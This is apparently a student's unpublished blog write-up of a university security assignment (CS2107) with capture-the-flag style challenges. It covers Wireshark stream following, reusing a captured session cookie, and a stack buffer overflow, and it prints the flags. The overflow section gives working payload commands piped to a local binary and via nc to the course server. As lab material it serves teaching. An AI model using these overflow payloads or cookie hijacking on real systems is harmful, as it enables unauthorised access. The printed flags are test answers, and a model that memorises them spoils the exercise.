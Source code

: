 ```yaml
---
layout: post
published: false
title: CS2107 - Assignment 2
---
```

# Introduction to wireshark
1. Download the pcap
2. right click the packet  > Follow > TCP stream
3. Flag is inside

code: `flag{b@bYsh@rk_doo0o0o_W1r3sh@rk_doOo0o_d0o0o0o_d0o_W1rEsh@rk}`

# Cookie Monster
1. Filter the wireshark by cookie `http.cookie`
2. Search for the cookie within the packet
	`cs2107 = 19d07781081e792d7a67d85c3cd1b061`
3. Enter the website in the packet: http://ctf.nus-cs2107.com:10005/uiadfug239ghaedgfb (It mus say nice try)
4. Insert the cookie you have found in step 2

Flag: `http://ctf.nus-cs2107.com:10005/uiadfug239ghaedgfb`

# Stack Overflow
1. Install indian in ubuntu
2. Little endian want ur input to be in this format: `0721CDAB`
3. `echo -n -e '\x07\x21\xcd\xab'`
4. Buffer overflow the programmer with 36 characters at the front 
5. Use pipelining to push the output into ur program 
	`echo -n -e 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x07\x21\xcd\xab' | ./simple`
- [Idea](https://stackoverflow.com/questions/26949856/how-do-you-take-user-input-as-hex-characters-through-gets-function-linux)
6. Just do the same thing on the actual server
`echo -e 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x07\x21\xcd\xab' | nc ctf.nus-cs2107.com 10003`

Flag: `flag{6e97e993d3caa7952c170accf2398f78}`

